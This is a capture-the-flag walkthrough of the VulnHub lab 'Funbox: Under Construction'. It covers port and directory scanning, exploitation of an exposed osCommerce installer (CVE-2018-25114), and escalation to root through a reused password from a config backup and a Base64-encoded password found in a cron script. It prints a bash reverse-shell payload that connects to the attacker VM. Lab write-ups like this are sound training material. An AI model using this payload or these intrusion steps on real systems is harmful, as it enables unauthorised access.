Funbox: Under Construction! (Source: https://www.vulnhub.com/entry/funbox-under-construction,715/)

Lets start by learning the target machine's IP address and in order to achieve this, I will run a simple nmap discovery scan.

    192.168.240.1 --> Host machine / virtual router (gateway)
    
    192.168.240.2 --> DHCP server
    
    192.168.240.3 --> Attacker VM (Kali)
    
    192.168.240.11 --> Target VM

Now that we know that the machine's IP address is 192.168.240.11, we can try to determine which ports are open for connections.

I will use the following command.

    nmap -p- -T 4 192.168.240.11

        -p-     -->     Determines all open ports

        -T 4    -->     Sets the timing option to 4 (default: 3)

The ports 22, 25, 80, 110 & 143 (all tcp) are open for connections



    22      -->     SSH     -->     Secure (encrypted) remote shell

    25      -->     smtp    -->     Used for sending, relaying, and transferring email messages

    80      -->     http    -->     Enables (unencrypted) web access

    110     -->     pop3    -->     Used for retrieving mail from a remote server

    143     -->     imap    -->     Used for synchronizing email messages with a mail server

Now let's learn a bit more about the services and their versions running on these ports.

I will use the following command.

    nmap -p 22,25,80,110,143 -sV -T 4 192.168.240.11 -oN funbox10/results.txt

        -p [list-of-ports]  -->     Scans only the specified ports
    
        -sV                 -->     Determines versions of running services

        -T 4                -->     Sets the timing option to 4 (default: 3)

        -oN [path/to/file]  -->     Saves the scan results to a file on my local VM (Desktop/funbox10/results.txt)



Since I'm not going to blindly start CVE hunting, I'll try directory enumeration with dirb.

I will use the following command.

    dirb http://funbox10/ /usr/share/wordlists/dirb/common.txt -o funbox10/http-enum.txt

        http://funbox10/    -->     The base URL (I added funbox10 to /etc/hosts so 'funbox10' and '192.168.240.11' are the same thing)

        .../common.txt      -->     The wordlist I used

        -o                  -->     Saves the output to a file

For anybody who is interested, you can see the file here: 

(Note that I removed all of the invalid URLs. Dirb saves the entire output to your file, including the invalid ones.)

On 'http://funbox10/catalog/install/install.php' we can see the installation page for osCommerce v2.3.4.1.

Here I was given the opportunity to learn about CVE-2018-25114:

    After installing the database, the installation directory ('/install/') remains accessible by default. That allows an attacker to invoke 'install_4.php, submit HTTP POST data and inject code into 'configure.php'. The injected code is then executed.

After a little while I found a POC (proof of concept) for this vulnerability on https://www.exploit-db.com/exploits/44374

After configuring the exploit.



The payload I used (reverse shell):

    payload += 'system("bash -c \'bash -i >& /dev/tcp/192.168.240.3/8000 0>&1\'")

Launching the exploit.

And it worked! We're now in the system, although our account ('www-data', id=33) is very restricted.



I'm gonna try and make this shell a bit more usable.



So I found a backup file for configure.php ('configure.php.bak').



Backup files often contain sensitive data such as database credentials, which are frequently reused for system accounts.



We found jack:yellow. Let's login using these credentials.



Let's see what privileges this account has.



I also found a user flag in '/home/jack' called 'user.txt', but it's owned by root and therefore inaccessible to us.

A common privilege escalation vector is misconfigured cron jobs, so I began enumerating cron-related files.

    cli:    locate cron

While searching for cron-related files, I identified a script in /usr/share/doc/examples, which is an unusual location. Since misconfigured cron jobs sometimes reference non-standard scripts, I decided to inspect it.

We found a Base64-encoded string.



After decoding it we get:

    -u root -p rfvgbt!!

Logging in as root and finding the flags...

    su - root       -->     password is rfvbgt!!



